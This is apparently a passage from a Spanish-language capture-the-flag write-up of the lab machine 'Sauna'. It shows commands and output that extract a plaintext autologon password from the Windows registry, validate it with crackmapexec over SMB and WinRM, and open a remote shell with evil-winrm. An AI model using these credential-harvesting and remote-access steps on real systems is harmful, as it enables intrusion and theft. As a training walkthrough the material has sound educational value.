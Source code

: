 Procedemos a subir nuestro scrip winPEASx64.exe para realizar un reconocimiento
Encontramos las siguientes Credenciales para el usuario almacenadas por defecto en el AUTOLOGON:

```bash
svc_loanmgr: Moneymakestheworldgoround!
```
# Sacar las credenciales Almacenadas en el Autologon Windows
```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    .......etc... 
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

Procedemos a Validar las Credenciales para el user svc_loanmgr con Crackmapexec
```bash
# crackmapexec smb 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!' 
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:Moneymakestheworldgoround!

# crackmapexec winrm 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!' 
WINRM       10.10.10.175    5985   SAUNA            [*] Windows 10.0 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
WINRM       10.10.10.175    5985   SAUNA            [*] http://10.10.10.175:5985/wsman
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:Moneymakestheworldgoround! (Pwn3d!)
```

Vemos que Tambien tenemos acceso para conectarnos con la Herramienta Evil-winrm al user `svc_loanmgr`
```bash
# evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'      

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami
egotisticalbank\svc_loanmgr
```

